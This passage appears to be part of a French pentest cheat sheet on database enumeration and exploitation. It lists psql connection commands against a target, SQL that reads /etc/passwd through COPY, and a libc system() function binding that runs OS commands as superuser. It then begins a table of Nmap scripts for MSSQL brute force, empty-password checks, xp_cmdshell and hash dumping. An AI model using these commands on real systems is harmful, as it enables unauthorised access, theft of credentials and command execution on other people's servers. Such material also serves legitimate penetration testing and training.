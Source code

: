 ### Connexion manuelle PostgreSQL
```bash
# Connexion locale
psql -U postgres

# Connexion distante
psql -h target -U postgres
psql -h target -U postgres -d database

# Test sans mot de passe
psql -h target -U postgres -W

# Avec port personnalisé
psql -h target -p 5433 -U postgres
```

### Commandes PostgreSQL essentielles
```sql
-- Informations système
SELECT version();
SELECT current_user;
SELECT current_database();
\l -- Liste databases
\dt -- Liste tables
\du -- Liste utilisateurs

-- Lecture de fichiers
CREATE TABLE temp(data text);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp;

-- Exécution de commandes (si superuser)
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('id');
```

---

## 🏢 3. Microsoft SQL Server (Port 1433) - Énumération & Exploitation

### Scripts Nmap pour MSSQL
| Script | Description | Usage |
|--------|-------------|-------|
| `ms-sql-info` | Informations MSSQL | `nmap --script ms-sql-info target` |
| `ms-sql-brute` | Brute force MSSQL | `nmap --script ms-sql-brute target` |
| `ms-sql-empty-password` | Test mots de passe vides | `nmap --script ms-sql-empty-password target` |
| `ms-sql-xp-cmdshell` | Test xp_cmdshell | `nmap --script ms-sql-xp-cmdshell target` |
| `ms-sql-config` | Configuration MSSQL | `nmap --script ms-sql-config target` |
| `ms-sql-dump-hashes` | Dump hashes | `nmap --script ms-sql-dump-hashes target` |
